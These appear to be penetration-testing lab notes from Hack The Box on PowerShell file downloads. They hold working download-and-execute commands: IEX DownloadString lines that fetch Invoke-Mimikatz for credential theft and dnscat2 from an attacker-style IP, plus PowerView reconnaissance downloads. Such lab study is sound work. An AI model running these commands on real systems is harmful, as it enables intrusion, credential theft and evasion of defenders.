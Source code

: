 
### PowerShell Web Downloads

Most companies allows HTTP(s) outbound traffic.

Still, defender might not allow accessing certain file types such as .exe. 

#### File Download

Use **Net.WebClient**, **DownloadFile**:

```powershell-session
PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
PS C:\htb> (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')

PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
PS C:\htb> (New-Object Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1', 'C:\Users\Public\Downloads\PowerViewAsync.ps1')
```

#### Fileless

Instead of downloading, run it directly on memory using **Invoke-Expression**:

```powershell-session
PS C:\htb> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

IEX (New-Object Net.WebClient).DownloadString('http://10.10.16.21:1234/dnscat2.ps1')


#### PowerShell Invoke-WebRequest

PowerShell 3.0, **Invoke-WebRequest** cmdlet is available. But very slow. 

```powershell-session
PS C:\htb> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```



#### Powershell Download Errors

##### Internet Explorer misconfiguration

Sometimes when internet explorer is first launched, it is not configured correctly. 

We bypass this error using **-UseBasicParsing**:

```powershell-session
PS C:\htb> Invoke-WebRequest https://<ip>/PowerView.ps1 | IEX

Invoke-WebRequest : The response content cannot be parsed because the Internet Explorer engine is not available, or Internet Explorer's first-launch configuration is not complete. Specify the UseBasicParsing parameter and try again.
At line:1 char:1
+ Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/P ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ CategoryInfo : NotImplemented: (:) [Invoke-WebRequest], NotSupportedException
+ FullyQualifiedErrorId : WebCmdletIEDomNotSupportedException,Microsoft.PowerShell.Commands.InvokeWebRequestCommand

PS C:\htb> Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
```
